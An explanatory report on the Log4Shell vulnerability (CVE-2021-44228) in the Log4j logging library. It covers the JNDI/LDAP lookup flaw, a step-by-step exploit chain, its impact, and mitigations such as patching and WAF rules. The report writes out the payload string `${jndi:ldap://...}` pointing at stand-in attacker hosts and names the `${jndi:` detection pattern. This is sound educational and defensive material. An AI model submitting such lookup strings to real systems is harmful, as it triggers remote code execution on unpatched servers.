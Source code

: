 # Log4Shell Attack (CVE-2021-44228)-Technical Report

A detailed explanation of the Log4Shell attack (CVE-2021-44228), broken down for clarity.

## What is the Log4j Attack (Log4Shell)?

The **Log4j attack**, officially known as **Log4Shell** (CVE-2021-44228), was a critical, zero-day vulnerability in the ubiquitous **Log4j** Java logging library. Discovered and publicly disclosed in December 2021, it is considered one of the most severe cybersecurity vulnerabilities ever due to its ease of exploitation, widespread impact, and the potential for complete system takeover.

At its core, the vulnerability allowed an attacker to remotely execute any code of their choice on a server or application that used a vulnerable version of Log4j. This could lead to data theft, ransomware deployment, unauthorized access, and total compromise of the system.

---

## 1. The Culprit: What is Log4j?

To understand the attack, you must first understand the tool.

- **Log4j** is an open-source **logging utility** developed by the Apache Software Foundation.
- It is written in Java and is used by countless applications, websites, and services to record events—like errors, user actions, and system status—into log files for later review.
- Its popularity stems from its reliability and flexibility. It's a fundamental building block of the internet, used in everything from enterprise software (like VMware, Salesforce) to popular games (like Minecraft) and cloud services.

---

## 2. The Technical Heart of the Vulnerability: JNDI and LDAP

The flaw was not in the act of logging itself, but in a specific **feature** of Log4j that few developers knew about or used.

**Key Concepts:**

- **JNDI (Java Naming and Directory Interface):** A Java API that allows applications to look up (fetch) data and resources (like objects) from external directories using a name. Think of it like a phonebook for software components.
- **LDAP (Lightweight Directory Access Protocol):** A common protocol used for accessing and maintaining distributed directory information services (like Microsoft Active Directory). It's one of the services JNDI can talk to.
- **Lookups:** Log4j supports a feature called "lookups," which allow it to add dynamic, external information into log messages. For example, it can look up and insert environment variables.

**The Fatal Flaw:**

The vulnerability existed because Log4j's lookups were not restricted. An attacker could craft a **malicious string** that, when logged by a vulnerable application, would force Log4j to use JNDI to fetch a remote, attacker-controlled Java object and execute it.

---

## 3. How the Attack Works: Step-by-Step

Here’s a simplified breakdown of the exploit chain:

1. **Craft the Malicious Payload:** An attacker creates a special string that looks like this:
   ```${jndi:ldap://evil-attacker-server.com:1234/Exploit}```

2. **Trigger the Log Entry:** The attacker finds a way to get this string processed by the vulnerable application. This is shockingly easy. The string can be submitted through **any user-input field** that gets logged. Common examples include:
   - A search box on a website
   - An HTTP header (like `User-Agent` or `X-Forwarded-For`)
   - A username in a login form
   - A chat message in a game (this is how it was first discovered in Minecraft)

3. **The Application Logs It:** The application, doing its normal job, receives this string and passes it to Log4j to be written to the log file.

4. **Log4j Interprets the Lookup:** Log4j sees the `${jndi:...}` syntax and interprets it as a command. It connects to the attacker's server (`evil-attacker-server.com`) via the LDAP protocol.

5. **The Attacker's Server Responds:** The malicious LDAP server responds with a reference to a remote Java class file (`Exploit.class`) hosted elsewhere, perhaps on a simple HTTP server.

6. **The Application Fetches and Executes the Payload:** The vulnerable application fetches this malicious `Exploit.class` file and **executes it automatically**.

7. **Complete Compromise:** The executed code runs with the same permissions as the main application. This gives the attacker a foothold on the server, allowing them to:
   - Install malware or ransomware.
   - Steal sensitive data.
   - Use the server as a pivot to attack other internal systems.
   - Launch cryptocurrency miners.

---

## 4. Why Was It So Dangerous?

1. **Ubiquity:** Log4j is embedded in tens of thousands of applications and services across the globe. The potential attack surface was massive.
2. **Ease of Exploitation:** Attackers didn't need sophisticated skills or special access. They just needed to send a simple string. Automated scanners began exploiting it within hours of its disclosure.
3. **Difficulty in Patching:** Because Log4j is a *library* buried deep within other software's code, many companies didn't even know they were using it. Identifying all vulnerable systems was a monumental task.
4. **Multiple Attack Vectors:** Any data that could be logged was a potential entry point, making it very hard to defend against with traditional firewalls or input filters.

---

## 5. Mitigation and Response

The response was a global, coordinated effort by cybersecurity teams. Mitigation strategies included:

1. **Patching (The Primary Solution):** The Apache Foundation released urgent patches. Organisations were advised to immediately update Log4j to version **2.17.1** or later.
2. **Mitigation Steps (If Patching Wasn't Immediate):**
   - Setting the `LOG4J_FORMAT_MSG_NO_LOOKUPS` environment variable to `true`.
   - Removing the `JndiLookup` class from the Log4j jar file.
3. **Network Monitoring:** Security teams deployed rules in Intrusion Detection/Prevention Systems (IDS/IPS) to block traffic containing the tell-tale `${jndi:` pattern.
4. **WAF (Web Application Firewall) Rules:** WAFs were quickly updated to filter out requests containing JNDI lookup strings.

---

## Summary (In a Nutshell)

| Aspect | Explanation |
| :--- | :--- |
| **What was it?** | A critical Remote Code Execution (RCE) vulnerability in the Log4j logging library. |
| **Official Name** | **CVE-2021-44228** (aka **Log4Shell**) |
| **How did it work?** | By tricking a vulnerable application into logging a special string `${jndi:ldap://attacker.com/}`, which forced Log4j to fetch and execute malicious code from an attacker-controlled server. |
| **Why was it bad?** | Extremely easy to exploit, affected a huge percentage of the internet, and was difficult to find and patch everywhere. |
| **The Lesson** | It highlighted the critical risks hidden within the software supply chain—a single flaw in a common, open-source library can threaten the entire digital ecosystem. It forced a massive shift towards Software Bill of Materials (SBOM) to improve transparency. |
